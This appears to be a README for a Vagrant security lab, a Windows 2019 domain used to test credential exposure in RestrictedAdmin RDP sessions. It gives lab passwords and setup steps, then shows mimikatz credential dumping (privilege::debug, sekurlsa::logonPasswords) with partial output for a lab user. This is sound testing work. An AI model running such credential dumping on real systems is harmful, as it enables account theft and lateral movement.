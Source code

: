 Lab
-

This lab contains:
* A Win2019 domain "windomain.local" with:
    * User `Pik Achu <pikachu@windomain.local>`, Tier 1 Administrator, password `Bonjour1!`
    * Domain Administrator, password `vagrant`
* A Win2019 DC
* A Win2019 server `SRV`, considered in the Tier-1, with *RestrictedAdmin* enabled
* A Win10 client `Client`, considered as the administration station for Tier-1

Setup
-

```
$ vagrant up dc
$ vagrant up srv
$ vagrant up client
```

This lab needs an Internet connection only for the download of Mimikatz (once the box have been retrieved). If this is not an option, comment the `get-mimikatz.ps1` invocation.

If one of the different machine does not setup correctly, one can `destroy` and re-`up` it.

Usage
-

Once the Lab is setup, we can test the expected behavior of RDP sessions.

Let's connect from Client to SRV with `pikachu:Bonjour1!`:
```
Run > mstsc
Connect to `srv`
```

![mstsc](doc/client_mstsc.png "Launching MSTSC")

Once connected with RDP, we launch a `cmd.exe` with administrator privileges (simulating an attacker already on the machine), and we grab the credential in memory with `mimikatz`:
```
C:\Windows\system32>C:\Tools\Mimikatz\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Mar  8 2020 18:30:37
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonPasswords
```

As expected, we get back the authentication secrets of `pikachu`:
```
Authentication Id : 0 ; 975893 (00000000:000ee415)
Session           : RemoteInteractive from 2
User Name         : pikachu
Domain            : WINDOMAIN
Logon Server      : DC
Logon Time        : 4/23/2020 3:43:17 PM
SID               : S-1-5-21-1901789854-418502547-2738234678-1105
        msv :
         [00000003] Primary
         * Username : pikachu
         * Domain   : WINDOMAIN
```